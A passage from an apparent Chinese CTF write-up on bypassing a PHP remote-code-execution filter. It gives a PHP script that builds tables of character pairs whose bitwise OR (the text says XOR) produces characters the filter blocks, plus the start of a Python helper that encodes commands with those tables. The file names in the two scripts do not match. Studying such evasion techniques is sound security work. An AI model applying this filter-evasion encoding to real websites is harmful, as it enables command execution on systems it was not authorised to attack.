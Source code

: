 过滤了加减我们还可以用乘除，过滤了~我们可以用异或构造命令。

异或脚本：

```php
<?php
$myfile = fopen("rce_or.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i';
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```

```python
# -*- coding: utf-8 -*-

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
```